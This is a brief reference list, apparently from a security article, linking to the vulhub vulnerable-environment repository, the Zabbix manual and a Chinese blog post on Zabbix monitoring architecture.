-   [vulhub](https://github.com/vulhub/vulhub)
-   [Zabbix 手册](https://www.zabbix.com/documentation/current/zh/manual)
-   [Zabbix监控原理及架构](https://www.cnblogs.com/readygood/p/9650934.html)
